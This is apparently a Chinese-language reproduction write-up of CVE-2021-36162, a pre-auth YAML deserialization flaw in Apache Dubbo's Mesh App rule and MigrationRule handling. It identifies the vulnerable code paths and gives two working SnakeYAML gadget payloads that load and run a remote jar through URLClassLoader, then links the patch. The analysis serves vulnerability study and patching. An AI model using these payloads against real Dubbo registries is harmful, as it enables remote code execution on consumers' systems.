



# CVE-2021-36162 Apache Dubbo Mesh Yaml pre-auth 反序列化漏洞 GHSL-2021-094

## 概述

### 影响版本

[2.7.0, 2.7.12]、[3.0.0, 3.0.1]

## 复现分析

首先看一下 [漏洞披露邮件](https://lists.apache.org/thread/pmpft2lgbtjcdbpx6mg0x2cko3hq4tpn) 是这样描述的，Dubbo 支持配置覆盖，这些配置被加载到配置中心（Zookeeper, Nacos等）。Dubbo 可以配置 [Mesh App rules](https://github.com/apache/dubbo/commit/489f4884b73f113e2459810e4dbdb4f8ea543d78#diff-10e320e054e307aff87444e1f2cb4b4415406aa4785605f36039fbf567117133) 规则使得 customer 请求到正确端点，该过程由 yaml 解析，所以存在预授权反序列化。

### 3.0.1 MeshAppRuleListener

而在 `org.apache.dubbo.rpc.cluster.router.mesh.route.MeshAppRuleListener#receiveConfigInfo()` 方法中存在未经验证的 YAML 调用。利用思路比较简单，就是控制注册中心后添加恶意 Yaml。



`receiveConfigInfo()` 通过 `org.apache.dubbo.rpc.cluster.router.mesh.route.MeshRuleManager` 调用，即 consumer 从注册中心订阅应用的配置信息。



payload

```
---
!!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
    ]]
]
```

### 2.7.12 MigrationRule

2.7.12 利用类是 `org.apache.dubbo.rpc.cluster.support.migration.MigrationRule` ，因为定义了 Constructor，所以要封装一下。



payload

```
!!org.apache.dubbo.rpc.cluster.support.migration.MigrationRule {
    key: 
        !!javax.script.ScriptEngineManager [
            !!java.net.URLClassLoader [[
                !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
            ]]
        ]
}
```

## 补丁

https://github.com/apache/dubbo/pull/8350

